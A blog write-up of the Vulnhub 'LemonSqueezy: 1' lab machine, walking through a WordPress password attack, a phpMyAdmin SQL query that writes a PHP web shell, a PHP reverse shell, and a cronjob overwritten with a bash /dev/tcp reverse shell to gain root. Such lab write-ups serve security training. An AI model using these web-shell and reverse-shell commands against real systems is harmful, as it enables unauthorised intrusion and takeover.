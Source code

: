 ```yaml
---
layout: post
title:  "Vulnhub - LemonSqueezy: 1"
date:   2020-10-10 20:00:00 +1000
category: hacking
---
```


## Introduction
*This is a beginner boot2root in a similar style to ones I personally enjoy like Mr Robot, Lazysysadmin and MERCY.*

*This is a VMware machine. DHCP is enabled, add lemonsqueezy to your hosts. It’s easypeasy!*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [LEMONSQUEEZY: 1](https://www.vulnhub.com/entry/lemonsqueezy-1,473/) from vulnhub.

## Ports
We've got one port only; HTTP on 80.

## HTTP
So with a quick *gobuster* fishing expedition we find a couple of interesting things - in particular, *wordpress* and *phpMyAdmin*. 

Running wpscan gets us two users, *lemon* and *orange*. A password attack gets an easy win:

{% highlight shell %}
root@kali:/opt/vulnhub/lemonsqueezy# wpscan --url http://192.168.1.98/wordpress -U 'lemon,orange' -P /usr/share/wordlists/rockyou.txt 
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger
{% endhighlight %}

Using these credentials we can log in to Wordpress, but *orange* is not an admin. However we can find a post called *Keep this safe!* which contains a password: **n0t1n@w0rdl1st!**.

With this, we can login to *phpMyAdmin* as *orange*. Once there, we can grab the hash for *lemon* and try to crack it with Hashcat - it doesn't work easily. So instead we can change it to the same hash as used by *orange*, because we know this is *ginger*. Once we've done that we can log in to Wordpress as *lemon*.

## Wordpress
Normally we could run some PHP code in wordpress in a few different ways. We could edit an existing plugin, we could upload a new (malicious) plugin, or we could edit the PHP code of an existing theme. Unfortunately, none of these work because the temporary upload folder hasn't been set in *wp-config.php* - and we can't change it. What's more, the existing plugin and theme files are all set as non-editable. Again, something we can't change from the dashboard. Now what?

## phpMyAdmin
Back in phpMyAdmin, we can create a new table and then run this SQL on it:

``
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/wp-content/uploads/test.php" 
``

Once we've done that, we can visit http://lemonsqueezy/wordpress/wp-content/uploads/test.php and run commands - finally, RCE! Note that I did also set the *uploads* directory in wp-options in phpMyAdmin but I don't know if this was actually necessary or not.

This one gets me a shell:

``
http://lemonsqueezy/wordpress/wp-content/uploads/test.php?cmd=php+-r+%27$sock%3dfsockopen(%22192.168.1.77%22,1234)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
``

## On the box
Running *linpeas.sh* shows a cronjob of interest:

{% highlight shell %}
www-data@lemonsqueezy:/dev/shm$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
#
{% endhighlight %}

So this sure looks like a candidate for the *logrotten* exploit, right? But first let's just check the contents:

{% highlight shell %}
www-data@lemonsqueezy:/dev/shm$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
{% endhighlight %}

Ah! Shenanigans! Well it's fine, because we can write to the file. Let's replace the contents:

{% highlight shell %}
www-data@lemonsqueezy:/dev/shm$ printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.77/1235 0>&1\n' > /etc/logrotate.d/logrotate
<.168.1.77/1235 0>&1\n' > /etc/logrotate.d/logrotate
www-data@lemonsqueezy:/dev/shm$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.77/1235 0>&1
{% endhighlight %}

And now we wait ....

## Root

{% highlight shell %}
root@kali:/opt/vulnhub/lemonsqueezy# nc -nvlp 1235
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 192.168.1.98.
Ncat: Connection from 192.168.1.98:35102.
bash: cannot set terminal process group (23760): Inappropriate ioctl for device
bash: no job control in this shell
root@lemonsqueezy:~# cd /root/
root@lemonsqueezy:~# cat root.txt
cat root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
{% endhighlight %}

I enjoyed this one and learned some little tricks. Nice one.
